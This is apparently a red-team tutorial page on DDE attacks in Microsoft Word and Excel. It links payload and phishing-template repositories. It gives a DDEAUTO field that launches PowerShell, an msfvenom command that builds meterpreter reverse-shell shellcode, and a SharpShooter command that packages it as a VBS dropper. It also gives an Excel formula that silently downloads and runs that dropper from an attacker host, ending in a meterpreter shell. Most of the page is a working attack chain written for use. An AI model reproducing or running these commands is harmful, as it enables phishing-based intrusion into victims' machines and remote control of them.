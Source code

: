 # ⭕ DDE Auto - Word/Excel

{% embed url="https://github.com/0xdeadbeefJERKY/Office-DDE-Payloads" %}

{% embed url="https://github.com/MartinSohn/Office-phish-templates" %}

## <mark style="color:red;">Intro</mark>

DDE is an old MS technology that is used to facilitate data transfer between applications. DDE sends messages between applications that share data and uses shared memory to exchange data between applications.  DDE can be embedded in several Office file formats

To leverage this attack vector:

Open a new MS document and insert a field

![](<../../.gitbook/assets/image (51) (1).png>)

It will add an "!Unexpected End of Formula" to the document, we right-click it and "Toggle field codes" :

![](<../../.gitbook/assets/image (33) (1) (1).png>)

We then replace the = \* MERGEFORMAT with the payload: 1 { DDEAUTO "C:\Programs\Microsoft\Office\MSWord.exe\\..\\..\\..\windows\system32\WindowsPowershell\v1.0\powershell.exe start calc # " "required"}​ Copied! If we save the document, reopen our document and accept the 2 prompts, calculator will popup.



This attack has been tested on the latest Windows10 LTSC edition with Microsoft Office 365 with up-to-date Windows Defender.

#### Requirements:

* Enabled Dynamic Data Exchange Server Lookup
* Enabled Dynamic Data Exchange Server Launch

Warning presented to the user who opens the worksheet:

![](<../../.gitbook/assets/image (2) (1).png>)

## <mark style="color:red;">Exploitation</mark>

generate msfvenom shellcode:

```
msfvenom -a x86 -p windows/meterpreter/reverse_http LHOST=192.168.1.108 LPORT=443 EnableStageEncoding=True PrependMigrate=True -f raw -o raw3.txt
```

Create a malicious VBS script with SharpShooter with included raw3.txt shellcode file we generated earlier:

{% embed url="https://github.com/mdsecactivebreach/SharpShooter" %}

```
python2 SharpShooter.py --stageless --dotnetver 2 --payload vbs --output foo2 --rawscfile raw3.txt --amsi amsienable
```

And inject the command to Microsoft Excel function:

```
=cmd|'/c cmd.exe /c powershell.exe -nop -w hidden iwr -outf %tmp%\\msf.vbs http://192.168.1.108:8000/foo2.vbs & %tmp%\\msf.vbs'!'A1'
```

After the user skips the warning we get a meterpreter shell:

![](<../../.gitbook/assets/image (8).png>)

